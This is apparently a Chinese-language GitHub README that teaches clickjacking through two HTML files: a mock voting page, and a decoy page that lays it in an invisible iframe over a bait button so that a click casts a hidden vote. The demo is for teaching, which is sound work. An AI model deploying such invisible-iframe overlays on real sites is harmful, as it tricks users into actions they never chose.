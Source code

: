 # click-jacking

一个关于点击劫持的小示例，首相看下理论知识

![avatar](./image/map.png)

## 项目思路

首先，制作一个功能页面，作为被iframe嵌套的功能页面；这个页面的功能就是模仿投票功能，点击按钮时，即可完成投票功能，控制台会同步打印出操作信息。

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>Document</title>
  <style>
    .vote{
      width: 183px;
      margin: 0 auto;
      margin-top: 220px
    }
  </style>
</head>
<body>
  <div class="vote">
    <input type="text" value="5号选手">
    <button>投票</button>
  </div>

  <script>
    var span = document.getElementsByTagName('button')[0]
    span.addEventListener('click', function(){
      console.log('哈哈，谢谢你偷偷帮我投票～')
    })
  </script>
</body>
</html>
```
![avatar](./image/iframe.png)


制作一个只有图片的页面，用于迷惑用户进行交互；

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <title>click jacking demo</title>
  <style>
    body {
      padding: 0;
      margin: 0
    }
    .png {
      height: 100%;
      width: 100%;
    }
    .iframe {
      width: 1440px;
      height: 900px;
      position: absolute;
      top: -0px;
      left: -0px;
      z-index: 3;
      -moz-opacity: 0;
      opacity: 0;
      filter: alpha(opacity=0);
    }
    .btn {
      display: inline-block;
      padding: 2px 3px;
      background: burlywood;
      color: #fff;
      position: absolute;
      top: 221px;
      left: 766px;
      z-index: 2;
      cursor: pointer;
      border-radius: 30%
    }
  </style>
</head>
<body>
  <img class='png' src="./image/clickme.jpeg" alt="">
  <iframe class="iframe" src="./iframe.html" scolling='no' allowTransparency="true"></iframe>
  <span class="btn">click</span>
</body>
</html>
```

浏览器打开，会发现根据提示点击按钮，会在控制台中打印了相关的信息，就是说，即使我没有在功能页面进行投票操作，可是能投票。
![avatar](./image/index.png)

在迷惑页面中把 `iframe` 的 `opacity` 属性值修改成 `0.3 `，就能看到这个迷惑的原因了。
![avatar](./image/truth.png)


至此，已经把 `点击劫持` 的形式演示完毕